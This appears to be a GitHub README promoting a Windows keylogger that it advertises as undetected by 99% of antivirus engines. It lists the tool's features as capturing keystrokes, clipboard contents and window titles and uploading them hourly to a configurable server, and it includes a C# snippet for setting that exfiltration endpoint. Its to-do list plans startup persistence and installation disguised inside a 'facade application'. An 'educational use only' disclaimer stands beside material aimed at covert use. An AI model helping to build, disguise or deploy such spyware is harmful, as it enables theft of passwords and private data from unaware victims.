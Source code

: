 ![](https://img.shields.io/codefactor/grade/github/Darkempire78/Windows-Keylogger?style=for-the-badge) 
![](https://img.shields.io/github/repo-size/Darkempire78/Windows-Keylogger?style=for-the-badge) <a href="https://discord.com/invite/sPvJmY7mcV"><img src="https://img.shields.io/discord/831524351311609907?color=%237289DA&label=DISCORD&style=for-the-badge"></a>

# Windows Keylogger
It is a Windows keylogger undetected by all major anti-virus.

## Virustotal

This keylogger is undetected by 99% of the anti-virus on [**virustotal**]([https://www.virustotal.com/gui/](https://github.com/clementwzk/Windows-Keylogger/blob/main/Capture1.PNG?raw=true)).

<img src="[Capture1.PNG" width="500](https://github.com/clementwzk/Windows-Keylogger/blob/main/Capture1.PNG)"/>

## Installation

Download the [lastest release](https://github.com/Darkempire78/Windows-Keylogger/releases/) and install it.

You can edit the lines 18-19 to add your server where send logs :
```Csharp
string serverLink = "http://server-example/getLog.php";
string serverArg = "log";
```

## Features

* Log keys
* Log the clipboard
* Log window titles
* Send logs to a server each hour

## Logs example

![](Capture2.PNG)

## To do

- [ ] Start the keylogger when the computer is starting
- [ ] Install the keylogger from a facade application
- [ ] Improve the specific country keyboard support

## Discord

Join the Discord server !

[![](https://i.imgur.com/UfyvtOL.png)](https://discord.gg/sPvJmY7mcV)

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Disclaimer

**This project is for educational use only. Installing computer monitoring tools on computers you do not own or do not have permission to monitor may violate local, state or federal law.**

Logging other people's keystrokes or breaking into other people's computer without their permission can be considered illegal by the courts of many countries. The monitoring software reviewed here is ONLY for authorized system administrators and/or owners of computers. We assume no liability and are not responsible for any misuse or damage caused by the keylogging software. The end user of this software is obliged to obey all applicable local, state, federal and other laws in his country of residence.

## License

This project is under [GPLv3](https://github.com/Darkempire78/Raid-Protect-Discord-Bot/blob/master/LICENSE).
